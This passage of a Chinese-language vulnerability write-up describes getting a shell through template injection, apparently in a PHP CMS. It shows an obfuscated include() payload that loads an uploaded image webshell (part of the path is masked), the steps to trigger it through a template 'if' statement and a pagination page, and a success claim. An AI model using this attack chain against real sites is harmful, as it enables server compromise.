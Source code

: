     `include(s.tatic.array(__FILE__)[0][0].upload.array(__FILE__)[0][0].image.array(__FILE__)[0][0].array(PAGE)[0][2].array(PAGE)[0][0].array(PAGE)[0][2].array(PAGE)[0][0].array(PAGE)[0][0].array(PAGE)[0][4].array(PAGE)[0][1].array(PAGE)[0][7].(马赛克).png)`

    将payload放入模板的`if`语句中

3.  模板注入

![image](../img/eff47d4a818d8c8f15d99e9883e72c25.png)

4.  访问带有分页类且又能输出公司地址的地方

![image](../img/404e511e372960a16cbb133e672ba209.png)

Getshell成功！！！

### 补充

一开始在研究这个漏洞的时候，就觉得有点麻烦，又要上传图片马，又要构造图片马的路径，不能一个payload直接打，十分麻烦。

于是就跑去问了问P师傅**（P牛，永远滴神！）**

P师傅理解了我的需求后，直接甩了个payload给我
